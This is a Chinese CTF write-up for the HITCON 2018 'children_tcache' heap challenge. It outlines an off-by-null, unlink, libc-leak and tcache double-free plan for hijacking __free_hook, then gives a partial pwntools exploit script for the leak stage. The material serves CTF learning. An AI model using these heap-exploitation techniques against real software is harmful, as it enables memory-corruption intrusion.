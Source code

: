 利用思路

1.tc最大的chunk大小是0x410，那么我们申请的chunk大于这个就可以得到unsortedbin chunk

2.利用off by null修改chunk的insure位置为unlink向前合并构造条件

3.unlink后申请会原来用来做于unsortedbin的chunk去show出来就可以泄露libc了

4.得到libc之后tcache bin double free 劫持 __free_hook 为 onegadget

tips:步骤2中对于off by null的利用有两步第一个是复原prev_size，第二个是伪造insure伪造

复原原理如下

free 的 memset 写入的字节长度是 chunk_size ，也就是申请多少，free 填充多少，但是 malloc 并不是这样，malloc 会自动对齐。举个例子：结合off by null 漏洞就可以复原

```
size=0xe8 -> chunk_size=0xf0
size=0xe7 -> chunk_size=0xf0
size=0xe6 -> chunk_size=0xf0
```

exp

```python
from pwn import *
#context(log_level='debug',arch='amd64')

p = process("./HITCON_2018_children_tcache")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./HITCON_2018_children_tcache")
#p = remote("node4.buuoj.cn",28194)
#libc = ELF("./libc-2.27.so")

def add(size, content):
	p.recvuntil("Your choice: ")
	p.sendline('1')
	p.recvuntil("Size:")
	p.sendline(str(size))
	p.recvuntil("Data:")
	p.send(content)

def free(index):
	p.recvuntil("Your choice: ")
	p.sendline('3')
	p.recvuntil("Index:")
	p.sendline(str(index))

def show(index):
	p.recvuntil("Your choice: ")
	p.sendline('2')
	p.recvuntil("Index:")
	p.sendline(str(index))
#-------leak
add(0x410,'0')#0
add(0xe8,'1')#1
add(0x4f0,'2')#2
add(0x60,'3')#
free(0)
free(1)
for i in range(0,6):
	add(0xe8-i,'k'*(0xe8-i))
	free(0)
add(0xe8,'k'*0xe0+p64(0x510))#0
free(2)
gdb.attach(p)
add(0x410,'leak')#1
gdb.attach(p)
```